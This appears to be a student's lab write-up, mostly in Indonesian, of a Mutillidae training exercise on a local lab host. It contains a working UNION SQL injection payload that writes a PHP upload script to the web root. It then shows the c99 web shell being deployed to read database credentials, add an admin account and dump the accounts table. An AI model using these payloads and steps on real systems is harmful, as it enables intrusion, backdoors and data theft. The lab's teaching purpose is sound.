 # Lesson 11 : SQL Injection Union Exploit #4 (Create PHP Upload Script)

## Download c99.php
1. Open a console terminal
2. Get Rar File
   - Buka terminal, jalankan perintah berikut :
   ```bash
   mkdir -p /root/backdoor
   cd /root/backdoor/
   wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson11/stuff.rar
   ls -lrt
   ```
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/download.png "Home page")
3. Extract Rar File
   - Jalankan perintah berikut pada terminal :
   ```bash
   unrar x stuff.rar
   cat part1.txt part2.txt part3.txt > c99.php
   cp c99.php c99.php.bkp
   ls -lrt
   ```
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/extract.png "Home page")
4. Configure and Prepare c99.php
   - Jalankan perintah berikut pada terminal :
   ```bash
   head -1 c99.php
   sed -i '1 s/^.*$/<?php/g' c99.php
   head -1 c99.php
   gzip c99.php
   ls -l
   ```
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/configure.png "Home page")

## Navigate to the User Info Page
1. Buka browser kemudian akses Mutillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")
2. Go to User Info
   - OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info 
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/user_info.png "Home page")

## Inject Upload Form into User Info Page
1. Inspect the View Account Details Button
   - Klik kanan pada Button View Account, kemudian inspect element
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/user_info.png "Home page")
2. Change Button Placement
   - Pada bagian text-align udah dari yang semula center menjadi left
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/change_button.png "Home page")
3. Inspect the Name Textbox
   - Klik kanan pada textbox **Name**, kemudian inspect element
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_18/inspect.png "Home page")
4. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 550
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/change_name.png "Home page")
5. Backdoor Union SQL Union Injection
   - Pada kolom Textbox **Name** isikan 
   ```bash
   ' union select null,null,null,null,'<html><body><div><?php if(isset($_FILES["fupload"])) { $source = $_FILES["fupload"]["tmp_name"]; $target = $_FILES["fupload"]["name"]; move_uploaded_file($source,$target); system("chmod 770 $target"); $size = getImageSize($target); } ?></div><form enctype="multipart/form-data" action="<?php print $_SERVER["PHP_SELF"]?>" method="post"><p><input type="hidden" name="MAX_FILE_SIZE" value="500000"><input type="file" name="fupload"><br><input type="submit" name="upload!"><br></form></body></html>' INTO DUMPFILE '/var/www/html/mutillidae/upload_file.php' -- 
   ```
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/union.png "Home page")
6. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
  ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/result_union.png "Home page")

## Upload c99.php to Mutillidae
1. Place the following URL in the Address Bar
	- Buka url berikut pada browser 
		http://10.0.1.100/mutillidae/upload_file.php
  ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/upload_page.png "Home page")
	- Klik tombol Browse
	- Cari file c99.php pada folder /root/backdoor
  ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/browse_file.png "Home page")
	- Klik tombol Open
	- Klik tombol Submit Query
  ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/upload_file.png "Home page")

## Using c99:php's to grab database password
1. Server security information
	- Buka url berikut pada browser 
		http://10.0.1.100/mutillidae/c99.php
  ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/c99_page.png "Home page")
	- Klik link navigasi Sec
  ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/sec_page.png "Home page")
2. Discover Mutillidae Application Directory
	- Isikan "pwd" pada textbox sebelah kiri paling atas
	- Klik Execute
  ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/sec_pwd.png "Home page")
3. Search php scripts for the string password
	- Isikan `find /var/www/mutillidae -name "*.inc" | xargs grep -i "db" | grep "="` pada kalom kedua
	- Klik Execute
  ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/grep_db.png "Home page")
4. Viewing Password Results
   - Pada textbox pertama akan tampil hasil dari eksekusi command
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/result_grep.png "Home page")

## Using c99:php's to examine pillage the database
1. Connect to SQL
   - Klik link navigasi Sec
   - Isikan pada textbox
   ```
   Username: root
   Password: samurai
   Database: owasp10
   ```
   - Klik tombol Connect
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/connect_db.png "Home page")
2. Select table accounts
	 - Select tabel account pada database owasp10
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/db_result.png "Home page")
3. Insert Record Link
	 - Klik link Insert 
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/account_result.png "Home page")
4. Supply New User Information
   - Isikan pada textbox
   ```
   cid Value: 20
   username Value: hacker
   password Value: hacker
   mysignature: Noob
   is_admin: TRUE
   ```
   - Klik tombol Confirm
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/add_user.png "Home page")
5. Insert New User Information
   - Klik tombol Yes
  ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/confirm_add_db.png "Home page")
6. Verify New User Information
   - Scroll kebawah untu melihat hasil
   - Veifikasi jika user hacker sudah dibuat
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/verifikasi_result.png "Home page")
7. Prepare to Dump the Accounts Table
   - Scroll keatas
   - Klik link Dump
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/dump_link.png "Home page")
8. Dump the Accounts Table
   - Isikan pada textbox
   ```
   DB: owasp10
   Only tables (explode ";"): accounts
   File: ./dump_owasp10_accounts.sql
   Download Checkbox: Check it
   Save to file Checkbox: Check it
   ```
   - Klik tombol Dump
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/add_dump.png "Home page")
9. Save Accounts Dump File
   - Pilih Save File
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/save_dump.png "Home page")

## Proof of Lab
1. View Result
   - Buka terminal
   - Pindah direktori ke folder Downloads `cd Downloads`
   - Jalankan perintah berikut
   ```bash
   grep -i hacker dump_owasp10_accounts.sql
   date
   echo "Hendri F"
   ```
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/proof_lab.png "Home page")
